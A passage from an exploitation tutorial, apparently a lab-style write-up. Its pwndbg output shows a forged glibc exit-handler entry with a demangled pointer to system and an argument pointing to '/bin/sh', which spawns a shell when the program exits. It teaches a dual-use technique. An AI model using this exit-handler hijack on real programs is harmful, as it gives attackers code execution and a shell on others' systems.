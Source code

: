 ```c
  ...
        cxa = {
          fn = 0xa81678cef267afc2,
          arg = 0x555555559c80,
          dso_handle = 0x0
        }
  ...
```

being `0x555555559c80` an address were I wrote `/bin/sh`.

Let's finish the program (so `exit` is called). In `__run_exit_handlers`, we can see that after performing the `PTR_DEMANGLE` operation, we see our `system` address:

`*RAX  0x7ffff7c5af30 (system) ◂— endbr64`

And finally we can see `system` is called with our string:

```c
 ► 0x7ffff7c47bef <__run_exit_handlers+431>    call   rax  <system>
        command: 0x555555559c80 ◂— 0x68732f6e69622f /* '/bin/sh' */
```

```c
pwndbg> c
Continuing.
[Attaching after Thread 0x7ffff7fa3740 (LWP 10964) vfork to child process 12772]
[New inferior 2 (process 12772)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 10964 after child exec]
[Inferior 1 (process 10964) detached]
process 12772 is executing new program: /usr/bin/dash
...
```

> Feel free to reach out if you spot any mistakes!

**Happy hacking!**
